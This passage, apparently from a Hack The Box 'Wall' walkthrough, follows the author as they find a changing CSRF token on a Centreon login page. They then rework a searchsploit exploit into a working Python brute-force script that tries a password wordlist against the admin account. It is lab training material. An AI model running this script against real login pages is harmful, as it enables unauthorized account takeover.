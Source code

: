 Also suggests there is a dynamic login token required. If true a conventional brute force via hydra will be difficult.

I review the source code on the original request to find the token on line 43 and compare with a a refreshed version of the site:

![tokens.png](/assets/htb_stuff/wall/tokens.png)

It does look like the token changes. I try the googled default credentials of `admin:centreon` but they do not work:

![nope.png](/assets/htb_stuff/wall/nope.png)

After some research on the app and the exploit I decide to to try a brute force attack on the website.

My Hydra game isn't strong enough to craft the attack and I don't want to pull out Zap/Burp unless I have to. I copy the original exploit to my working directory to re-work it as a brute force tool.

``` bash
searchsploit -m 47069
```

I rework the code to the following:

``` python
import requests
import sys
import warnings
from bs4 import BeautifulSoup

# turn off BeautifulSoup warnings
warnings.filterwarnings("ignore", category=UserWarning, module='bs4')
url = 'http://10.10.10.157/centreon'
username = 'admin'
pass_file = 'xato-net-10-million-passwords-1000.txt'

def get_passwords(pass_file=pass_file):
    return [line.rstrip('\n') for line in open(pass_file)] # watch the newline!

def login_attempt(password, username=username):
    request = requests.session()
    print("[+] Retrieving CSRF token to submit the login form")
    page = request.get(url+"/index.php")
    html_content = page.text
    soup = BeautifulSoup(html_content)
    token = soup.findAll('input')[3].get("value")

    login_info = {
        "useralias": username,
        "password": password,
        "submitLogin": "Connect",
        "centreon_token": token
    }
    login_request = request.post(url+"/index.php", login_info)
    print("[+] U: {0} P: {1} T: {2}".format(username,password,token))
    if "Your credentials are incorrect" not in login_request.text:
        print("[+] Logged In Sucssfully")
        exit()
    else:
        print("[-] Wrong credentials")

passwords = get_passwords()
for password in passwords:
    login_attempt(password=password)
```

